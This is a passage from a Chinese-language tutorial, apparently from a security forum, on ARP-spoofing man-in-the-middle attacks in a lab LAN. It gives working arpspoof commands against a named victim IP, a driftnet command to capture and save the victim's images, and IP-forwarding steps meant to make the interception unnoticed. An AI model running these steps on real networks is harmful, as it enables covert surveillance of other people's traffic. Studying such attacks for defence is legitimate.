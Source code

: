 这时使用wireshark抓包观察

![image-20210628003414270](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-97b8b2fad097b9ef014611edac125b4d78f37e95.png)

我们看到在kali上抓取eth0网卡的数据，筛选受害者IP，看到了抓到了受害者的流量。

可以看到,抓到的都是受害者ip (即192.168.200.134)发出的请求。所依上面的那条命令指的是，把我自己伪装成网关，局域网内的其他受害主机发出的请求报文，全部先发给我。  
那么，通过计算机网络的基础知识可知，如果想要抓取图片流，上述命令只能抓到本地上传的图片。  
如果你要抓取请求到的图片，你就不能使用上述命令。

需要改成

```php
arpspoof -i [网卡名称] -t [网关IP] [受害者IP]
arpspoof -i eth0 -t 192.168.200.1 192.168.200.134
```

问题来了，如果我即想抓取请求图片流，又想抓取响应图片流呢

```php
arpspoof -i [网卡名称] -r [网关IP] -t [受害者IP]
arpspoof -i eth0 -r 192.168.200.1 -t 192.168.200.134
```

![image-20210628005403191](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-497ae84b758e0dbc45d7b64111c0b971d60cc2ae.png)

5、永久保存操作
--------

```php
driftnet -i eth0 -b -a -d 目录
```

![image-20210628005708283](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3e32c09164b7f7ec16f65033f1620164fcecfee.png)

![image-20210628005744935](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-158bd94bac072929e4321768dbc04f93cd6ef0e0.png)

四、中间人攻击（二） -ARP欺骗
=================

1、流量转发
------

仅仅是截获流量，被攻击主机很容易发现异常，如何神不知鬼不觉的监视被攻击的主机呢?这就需要我们启动流量转发功能!  
进行DNS欺骗之前，要检查攻击机，有没有开启IP转发。  
Net.ipv4.ip\_forward=0，则IP转发没有开启，需要手动将其设为1。

```php
sysctl net.ipv4.ip_forward

#如果为0，使用下面命令修改为1
sysctl -w net.ipv4.ip_forward=1

或者修改此处
vi /etc/sysctl.conf
```
